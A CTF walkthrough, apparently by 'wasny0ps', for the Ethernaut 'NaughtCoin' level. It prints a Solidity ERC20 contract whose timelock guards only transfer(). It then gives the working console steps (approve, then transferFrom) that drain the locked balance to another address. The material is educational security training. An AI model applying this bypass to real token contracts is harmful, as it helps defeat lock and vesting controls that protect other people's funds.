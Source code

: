 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

Challenge's message:

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Say welcome this Solidity smart contract for an ERC-20 token called NaughtCoin. It inherits from the OpenZeppelin ERC20 contract, which provides standard functionality for ERC-20 tokens. The contract has an added functionality that prevents the initial owner (player) from transferring tokens until a certain time lock period has passed.

First of all, the contract imports the ERC20.sol file from the "openzeppelin-contracts-08" library, which contains the implementation of the ERC-20 standard. Then, there is a public variable called **timeLock** which is storing the timestamp until which the initial owner cannot transfer tokens. It is set to 10 years (365 days * 10) from the deployment of the contract. After then, **INITIAL_SUPPLY** public variable representing the total initial supply of NaughtCoin tokens. It is initialized to 1,000,000 tokens with 18 decimals. Later, the **player** variable is storing he address of the initial owner of the contract.

In the constructor, it setups classic deployment process. If you don't how to deploy ERC20 contract, you can visit [here.](https://hacken.io/discover/create-erc-20-token/)

In this step, we are looking into the rest of the contract. In the transfer() function, the contract **overrides the transfer function from the ERC20 contract**. It adds a modifier **lockTokens** to the transfer function, which restricts token transfers from the initial owner until the time lock has passed. If the sender (msg.sender) is the player address, the modifier checks if the current timestamp is greater than the timeLock. If it is, the transfer is allowed; otherwise, the transfer is rejected. What is more, if the sender is not the player address, the transfer is allowed without any time restrictions.

Next, there is a **lockTokens** modifier. It checks whether the sender is the player address:

- If it is, the modifier requires that the current timestamp is greater than the **timeLock** variable, effectively enforcing the time lock. If the condition is met, the modifier allows the function to proceed.
- If the sender is not the **player** address, the modifier allows the function to proceed without imposing any time restrictions.

# Subverting


```shell
(await contract.balanceOf(player)).toString()
'1000000000000000000000000'
```

(await contract.allowance(player, player)).toString()
'0'

See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xee4d5333cc4c60ddde903a5c938c01c705b34632224f36b6979b5b445fb1e34e)

```shell
await contract.approve(player, "1000000000000000000000000")
```

```shell
(await contract.allowance(player, player)).toString()
'1000000000000000000000000'
```

See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xe31cef4e74fa793caf8cda4c87b1341d0be88ff0df35137057fc8f1cbd4db4d2)

```shell
await contract.transferFrom(player,"0x80aCA4707d5A7B83B6Df80155ee46179AE678d2e","1000000000000000000000000")
```


```shell
(await contract.balanceOf(player)).toString()
'0'
```

Ethernaut's message:

> When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

**_by wasny0ps_**
